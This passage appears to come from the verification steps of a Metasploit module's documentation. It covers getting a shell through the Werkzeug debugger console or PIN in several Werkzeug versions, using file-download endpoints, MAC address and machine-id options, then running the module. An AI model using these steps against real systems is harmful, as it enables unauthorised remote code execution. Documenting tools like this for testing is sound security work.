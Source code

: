 ### Werkzeug 3.0.3 using debugger (POST)

15. Do: `set METHOD POST`
16. Do: `set TARGETURI /postdownload`
17. Do: `set REQUESTBODY file=`
18. Do: `run`
19. You should see a PIN and a cookie being logged then get a shell.

### Werkzeug 1.0.1 using /console

20. Do: `unset METHOD`
21. Do: `unset TARGETURI`
22. Do: `unset REQUESTBODY`
23. Do: `set RPORT 81`
24. Do: `set TARGET 1`
25. Do: `set MACADDRESS <mac-address>`
26. Do: `set MACHINEID <machine-id>`
27. Do: `set FLASKPATH /usr/local/lib/python2.7/site-packages/flask/app.pyc`
28. Do: `run`
29. You should see a PIN and a cookie being logged then get a shell.

### Werkzeug 1.0.1 using /debugger (GET)

30. Do: `set TARGETURI /getdownload?file=`
31. Do: `run`
32. You should see a PIN and a cookie being logged then get a shell.

### Werkzeug 1.0.1 using debugger (POST)

33. Do: `set METHOD POST`
34. Do: `set TARGETURI /postdownload`
35. Do: `set REQUESTBODY file=`
36. Do: `run`
37. You should see a PIN and a cookie being logged then get a shell.

### Werkzeug 0.11.5 using /console

38. Do: `unset METHOD`
39. Do: `unset TARGETURI`
40. Do: `unset REQUESTBODY`
41. Do: `set RPORT 82`
42. Do: `set TARGET 2`
43. Do: `set MACADDRESS <mac-address>`
44. Do: `set MACHINEID <machine-id>`
45. Do: `run`
46. You should see a PIN and a cookie being logged then get a shell.

### Werkzeug 0.11.5 using /debugger (GET)

47. Do: `set TARGETURI /getdownload?file=`
48. Do: `run`
49. You should see a PIN and a cookie being logged then get a shell.

